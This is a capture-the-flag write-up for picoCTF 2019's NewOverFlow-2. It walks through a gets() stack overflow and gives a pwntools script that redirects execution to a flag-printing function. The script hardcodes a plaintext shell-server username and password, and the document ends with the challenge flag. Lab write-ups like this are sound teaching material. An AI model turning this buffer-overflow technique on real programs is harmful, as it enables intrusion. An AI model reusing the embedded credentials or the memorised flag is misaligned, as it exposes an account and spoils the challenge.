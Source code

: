 # Problem
Okay now lets try mainpulating arguments. [program](https://2019shell1.picoctf.com/static/9b7f5c6e1ff8b3b570ce93d4b470e586/vuln). You can find it in /problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7 on the shell server. [Source](https://2019shell1.picoctf.com/static/9b7f5c6e1ff8b3b570ce93d4b470e586/vuln.c).

## Hints:

Arguments aren't stored on the stack anymore ;)

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/9b7f5c6e1ff8b3b570ce93d4b470e586/vuln
wget https://2019shell1.picoctf.com/static/9b7f5c6e1ff8b3b570ce93d4b470e586/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

The goal of this challenge is to teach us [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming).

The conditions required for getting the flag are ```win1 && win2``` followed by a call to ```win_fn```.
```win1``` will be set when we call ```win_fn1(0xDEADBEEF)``` , and ```win2``` will be set when we call ```win_function2(0xBAADCAFE, 0xCAFEBABE, 0xABADBABE)``` afterwards.

First we need to calculate the offset of the return address in ```vuln()``` (we need to override it with our rop chain), we can use this gdbinit script.

```
run < <(echo AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOO)
p $rbp
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x00000000004008cd in vuln ()
$1 = (void *) 0x4949494949494949
```

We know that ```JJJJJJJJ``` overrides the return address.

Hey, stop! We also have ```flag``` as before. Same code as in NewOverFlow-1 should work as well.


Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/newoverflow-2_2_1428488532921ee33e0ceb92267e30a7')
  p = s.process('./vuln')

binary = ELF('./vuln')
ret = binary.search(asm('ret')).next()

print p.recvuntil('Welcome to 64-bit. Can you match these numbers?')
p.sendline('AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIII' + p64(ret) + p64(binary.symbols['flag']))

print p.recvall()
```

Flag: picoCTF{r0p_1t_d0nT_st0p_1t_64362a2b}